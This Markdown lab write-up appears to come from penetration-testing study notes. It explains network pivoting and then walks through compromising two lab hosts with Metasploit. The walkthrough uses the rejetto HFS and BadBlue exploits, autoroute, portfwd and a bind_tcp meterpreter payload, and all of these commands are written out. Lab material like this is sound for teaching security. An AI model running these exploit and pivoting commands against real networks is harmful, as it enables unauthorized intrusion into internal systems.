 # Pivoting

## Pivoting definitions

Pivoting is a post exploitation technique that involves utilizing a compromised host that is connected to multiple networks to gain access to systems within other networks.

After gaining access to one host, we can the compromised host to exploit other hosts on a private internal network to which we could not access previously.

Meterpreter provides us with the ability to add a network route to the internal network's subnet, perform port forwarding and consequently scan and exploit other systems on the network.

## Different types of pivoting

Port forwarding: The attacker creates a tunnel between two machines via open TCP/IP ports, forwarding packages and traffic from one to another.

There are multiple forms of port forwarding:

- Local port forwarding: The compromised machine “listens” for data and instructions from the attacker’s machine, allowing the attacker to access internal services.

- Remote port forwarding: The attacker maps ports on their machine to local ports on the compromised machine.

- Dynamic port forwarding: The attacker creates a SOCKS proxy server for tunneling traffic, with the compromised machine acting as a middleman between the attacker’s machine and internal services.

- VPN pivoting: The attacker starts a virtual private network (VPN) client on the compromised machine, accessing a remote VPN server. The attacker then sends data from the server to the client and can also access information (e.g., network traffic) from the compromised machine by sending data from the client to the server.

- Proxy pivoting/SSH pivoting: The attacker establishes a local proxy server through SSH. Any connections to the designated port are then forwarded through the proxy to their final destination.

- Routing tables: The attacker changes the routing table of the compromised machine to add a new route. This route will require any traffic sent to the destination to tunnel through the defined gateway, allowing the attacker to capture this data.

## Lab

Victim 1 : 10.0.29.148/20

Victim 2 : 10.0.29.96/20

The attacker's Kali machine communicates with victim 1, but not with victim 2.

![pivoting-lab](../../Media/Pivoting/pivoting-lab.png)

## Steps of pivoting scenario (routing tables & remote port forwarding)

1. Enumeration of victim-1 :

```text
:~# nmap -sV -p 80 10.0.29.148
```

2. Use an exploit for compromise victim-1 machine :

```text
:~# searchsploit rejetto
:~# msfconsole
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> run
meterpreter > sysinfo
meterpreter > getuid
```

3. We'll add a new route between victim-1 machine and victim-2 machine to enable us to communicate with victim-2 :

```text
meterpreter > run autoroute -s 10.0.29.0/20
meterpreter > run autoroute -p
```

5. Let's put the victim-1 session in the background :

```text
meterpreter > background
```

6. Next, we will enumerate victim-2 via victim-1 with tcp port scan module :

```text
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > show options
msf6 > set RHOSTS 10.0.29.96
msf6 > set PORTS 1-100
msf6 > run
```

We can see that port 80/tcp is open on victim-2 machine.

7. We want to enumerate the version on this port 80 with nmap on our Kali machine, so we need to create a port redirection to our local machine :

```text
msf6 > sessions
msf6 > sessions 1
meterpreter > portfwd add -l 1234 -p 80 -r 10.0.29.96
```

8. Now, in new tab of kali machine, we execute nmap scan to victim-2 service with port redirection :

```text
:~# nmap -sV -p 1234 localhost
```

We have identified the http service “Badblue httpd 2.7”.

8. Next, we will launch an exploit on victim-2 to gain access :

```text
msf6 > background (victim-1 session to background)
msf6 > search BadBlue
msf6 > use exploit/windows/http/badblue_passthru
msf6 > set payload windows/meterpreter/bind_tcp
msf6 > set RHOSTS 10.0.29.96
msf6 > run
meterpreter > sysinfo
meterpreter > getuid
```

9. At this point, we have gained access to victim-1 and victim-2 machines, and can list these accesses with the above commands :

```text
meterpreter > background (victim-2 session to background)
meterpreter > sessions
```
